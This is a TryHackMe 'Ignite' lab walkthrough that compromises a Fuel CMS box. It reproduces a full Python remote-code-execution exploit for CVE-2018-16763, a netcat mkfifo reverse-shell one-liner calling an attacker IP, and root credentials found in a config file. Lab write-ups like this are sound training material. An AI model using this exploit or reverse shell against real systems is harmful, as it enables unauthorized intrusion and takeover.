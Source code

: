 ```yaml
---
title: TryHackMe Basic Pentesting
date: 2020-12-05
categories: [TryHackMe]
thumbnail: /assets/img/thm/ignite/ignite.png
excerpt: We use an RCE to get into fuel CMS, we later found root credentials through a PHP file.
tags: [enum4linux,RCE,linpeas,searchsploit]
---
```


# TryHackMe - Ignite

A new start-up has a few issues with their web server.

---

## Nmap results

Let's start off with nmap:

`nmap -sC -sV -T4 --max-rate 2500 <Box IP> -oN ignite`

![nmap](nmap.png)

`Port 80` seems to be the only port open to us.

---

## Website

Let's take a look at the website:

![website](website.png)

Looks like we'll be dealing with `Fuel CMS`. If we scroll down a bit, we can see that it gives us a direct link to login to the CMS:

![tatsit](thatsit.png)

The username and password are given to us as well.

>Username: `admin`
>Password: `admin`

---

## Exploit

Looking for an exploit on searchsploit yields an RCE for version 1.4.1.

![searchsploit](searchsploit.png)

We can get this file with `searchsploit -m <filename>`

Examining the exploit:

```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

There are a couple things we need to change here, the `url` variable should point to our target's Fuel CMS page. This one is optional, but you can remove the lines pertaining to burp unless you plan on tunneling information to burp. But if you don't want to, just remove the `proxy` variable.

__My example__

```python
import requests
import urllib

url = "<box IP>"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        exploit = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        r = requests.get(exploit)
        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)
        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])
```

Running the exploit:

![rce](RCE.png)

You just have to make sure you execute your commands with quotes around them. So now we have a RCE running, lets grab a reverse shell. My go to one is netcat:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

Fill in your tun0 IP accordingly. And setup your listener with the port you chose.

![user](user.png)

Your user flag is in `/home/www-data`.

---

## Root Access

I went and got `LinEmun` and `linPEAS` onto the system, LinEnum didn't show much.

linPEAS, under

`[+] Interesting writable files owned by me or writable by everyone (not in Home)`.

There was a `database.php`, full path `/var/www/html/fuel/application/config/database.php`. You can also go back to the Fuel CMS page and see this:

![database](database.png)

__Examining `database.php`__

```php
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
        @include(TESTER_PATH.'config/tester_database'.EXT);
}
```

We can see that we have the username root and a password:

>Username: `root`
>Password: `mememe`

So now let's try to change users to root and use this password.

![root](root.png)

Great! Our root flag is in `/root`.